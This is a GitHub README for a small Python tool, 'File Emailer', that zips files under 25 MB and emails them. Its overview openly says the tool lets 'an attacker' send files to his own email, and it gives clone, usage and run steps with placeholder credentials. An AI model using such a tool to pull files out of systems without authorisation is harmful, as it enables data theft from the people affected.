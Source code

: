 # File Emailer

## Disclaimer

This script is for educational purposes only, I don't endorse or promote it's illegal usage

## Table of Contents

1. [Overview](#overview)
2. [Features](#features)
3. [Languages](#languages)
4. [Installations](#installations)
5. [Usage](#usage)
6. [Run](#run)

## Overview

This script allows an attacker to send files <25mb to his email

## Features

- Zips file before sending it through the email

## Languages

- Python 3.9.7

## Installations

```shell
git clone https://github.com/favoursyre/file-emailer.git && cd file-emailer
```

## Usage

Instantiating the class

```python
file = "filename.ext"
subject = "Email subject"
content = "Email content"
sender_ = "sender-email-address"
receiver = "receiver-email-address"
password = "sender-email-password"
stat = emailer(file, subject, content, sender_, receiver, password)
```

## Run

```bash
python emailer.py
```
